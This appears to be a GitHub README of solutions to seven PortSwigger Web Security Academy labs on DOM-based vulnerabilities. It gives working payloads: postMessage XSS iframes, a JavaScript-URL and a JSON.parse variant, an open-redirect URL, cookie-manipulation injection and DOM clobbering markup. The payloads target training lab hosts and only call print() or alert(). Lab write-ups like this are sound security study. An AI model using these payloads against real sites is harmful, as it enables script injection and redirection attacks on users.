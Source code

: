 
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/Blue%20Gradient%20Modern%20LinkedIn%20Banner.jpg?raw=true)
# DOM-based vulnerabilities







## Lab-1  , DOM XSS using web messages

This lab demonstrates a simple web message vulnerability. To solve this lab, use the exploit server to post a message to the target site that causes the print() function to be called.
- Go to the exploit server

```bash
  <iframe src="https://0aad00a403ef4bdf809e85bb002400ca.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">

```
![Logo](https://github.com/cyber-insect99/photo-gallery-/blob/main/portswigger%20lab.png?raw=true)

## Lab-2  , DOM XSS using web messages and a JavaScript URL

Go to the exploit server

```bash
  <iframe src="https://0a7300ab04ade806808f671e000300ee.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')"></iframe>

```
## Lab-3  , DOM XSS using web messages and JSON.parse

Go to the exploit server

```bash
  <iframe src=https://0aa000730357be3b8085a37700830016.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>

```

## Lab-4  , DOM-based open redirection

Go to the Browser

```bash
https://0a3d009f041d7ba480b4088200c800c6.web-security-academy.net/post?postId=2&url=https://exploit-0a46008a047d7bb3808f07e7016200cf.exploit-server.net/

```
[YouTube video ](https://www.youtube.com/watch?v=pwM8cr_30hg)

## Lab-5  , DOM-based cookie manipulation

Go to the exploit server

```bash
 <iframe src="https://0ac2000304106e2d8031df12004800e4.web-security-academy.net/product?productId=11&'><script>print()</script>" onload="if(!window.x)this.src='https://0ac2000304106e2d8031df12004800e4.web-security-academy.net';window.x=1;"></iframe>

```
[YouTube video ](https://www.youtube.com/watch?v=pk3KjtoLMTc)


## Lab-6  , Exploiting DOM clobbering to enable XSS

Go to the exploit server

```bash
 <a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">
```
[YouTube video ](https://www.youtube.com/watch?v=INUvcWQ3Pmc)


## Lab-7  , Clobbering DOM attributes to bypass HTML filters

Go to the exploit server

```bash
 <form id=x tabindex=0 onfocus=print()><input id=attributes>
<iframe 

```

```bash
 src=https://0a71004004c1f848800fbc6e005100fe.web-security-academy.net/post?postId=10 onload="setTimeout(()=>this.src=this.src+'#x',500)">

```
[YouTube video ](https://www.youtube.com/watch?v=34TB5FfNlko)




